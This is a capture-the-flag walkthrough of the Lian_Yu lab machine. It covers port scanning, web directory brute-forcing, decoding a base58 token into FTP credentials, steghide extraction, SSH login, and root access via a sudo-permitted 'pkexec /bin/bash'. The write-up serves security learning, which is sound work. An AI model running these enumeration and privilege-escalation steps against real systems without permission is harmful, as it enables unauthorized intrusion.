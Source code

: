 # Lian_yu

## 1. Port Scanning & Enumeration
### 1.1 Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.185.218
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 04:00 EDT
Nmap scan report for 10.10.185.218
Host is up (0.19s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34042/udp   status
|   100024  1          40662/tcp   status
|   100024  1          41729/tcp6  status
|_  100024  1          46517/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds

```

No `ftp` anon login. That's good. Nothing out of ordinary.

### 1.2 Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/***a**               (Status: 301) [Size: 236] [--> http://10.10.185.218/***a**/]
```

Interesting. Looking at the source code, we get:

`<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> *****a**e</style></h2>
`

It also hints at 'find a way'. This means more enumeration :D

```                          
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218/***a** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q

/21**                 (Status: 301) [Size: 241] [--> http://10.10.185.218/***a**/21**]
```

Looking at the source code again, we get:

`<!-- you can avail your .ticket here but how?   -->
`

Time for another round of web enumeration!

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.185.218/***a**/21** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ticket -q
/g****_*****.ticket   (Status: 200) [Size: 71]

```

Ey, viola!

```
This is just a token to get into Queen's Gambit(Ship)


RTy8yh******
```

### 1.3 Decoding

Using http://icyberchef.com/, I hoped to get some thing, but to no avail. It only says base64, but prints some garbage if we use it.

Having some previous blockchain experience, I remember that BTC usernames and something something uses base58. Trying that out, we get:

`!#th3****`

Using the `*****a**e` and the `!#th3****` as creds to ftp, we get in!

### 1.4 FTP

```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.185.218
Connected to 10.10.185.218.
220 (vsFTPd 3.0.2)
Name (10.10.185.218:kali): *****a**e
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> get Leave_me_alone.png
...
ftp> get Queen's_Gambit.png
...
ftp> get aa.jpg
... 
```

### 1.5 File Exploration

```       
┌──(kali㉿kali)-[/tmp]
└─$ file Leave_me_alone.png 
Leave_me_alone.png: data
```

```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

Trying empty string did not work, but password as password did. Quite common, plus, I'd like to dodge as many stego challenges :D

Anyways, going in, we have two files

```
┌──(kali㉿kali)-[/tmp]
└─$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, ****** learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

We get a username

```
┌──(kali㉿kali)-[/tmp]
└─$ cat shado     
*********
```

... did not work on the user we saw.

Tracing our steps back, we may have missed something important ... `ls -la` is always preferred over `ls`. I took note!

Here's the interesting file we missed:

```
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
```

Looking in it, we get a whole bunch of other users, and we just try them one by one :D

PS: You could use Hydra, but I feel that equal work.

## 2. Foothold

```
┌──(kali㉿kali)-[~]
└─$ ssh ****e@10.10.185.218
****e@10.10.185.218's password: 
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

****e@LianYu:~$ 
```

Get the user flag. Easy. Nothing else too interesting. Except ... the sudo permissions.

## 3. PrivEsc

Looking it up on https://gtfobins.github.io/ we get `sudo pkexec /bin/bash` as the command to run. Ez

And ...

```
****e@LianYu:~$ sudo /usr/bin/pkexec /bin/bash
root@LianYu:~# cat /root/root.txt
                          Mission accomplished
...
```

We are done!
